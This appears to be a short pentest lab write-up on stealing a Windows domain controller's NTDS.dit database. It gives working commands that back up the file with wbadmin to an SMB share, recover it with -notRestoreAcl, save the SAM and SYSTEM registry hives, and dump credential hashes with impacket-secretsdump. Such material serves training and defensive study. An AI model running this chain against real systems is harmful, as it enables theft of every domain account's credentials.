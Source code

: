 The NTDS.DIT file is constantly in use by the operating system and therefore cannot be copied directly to another location for extraction of information. This file can be found in the following Windows location:
 `C:\Windows\NTDS\NTDS.dit`

We can steal it by two ways:
- [ ] [diskshadow](https://pentestlab.blog/tag/diskshadow/)
- [ ] wbadmin

<center><i>Idea is to backup the OS then grab the ntds.dit file</i></center>

We can do that in C$ or make NTFS SMB from *ippsec* 

```bash
# chnage dir to SMB C$ 
cd \\10.10.10.192\C$\Windows\Temp
# Make a dir to store
md CFX
# Start the backup via wbadmin
wbadmin start backup -backuptarget:\\10.10.10.192\C$\Windows\Temp\CFX\ -include:C:\Windows\ntds\ntds.dit -quiet

# List items
tree /A /F
```

Now we want to access the backup files to do that we need to specify a flag `notRestoreAcl`  which is valid when recovering file. 

```bash
wbadmin start recovery -version:04/21/2021-14:14<version_identifier> -itemtype:file -items:c:\windows\ntds\ntds.dit -recoverytarget:c:\Users\svc_backup\Downloads -notRestoreAcl -quiet
```

Last this is to do is to dump the `SYSTEM` and `SAM` file from registers

```bash
reg save HKLM\SAM SAM
reg save HKLM\SYSTEM SYSTEM
```


Finally....... 
lets crack the ntds.dit file

```bash
impacket-secretsdump LOCAL -ntds ntds.dit -system SYSTEM -outputfile credentials.txt
```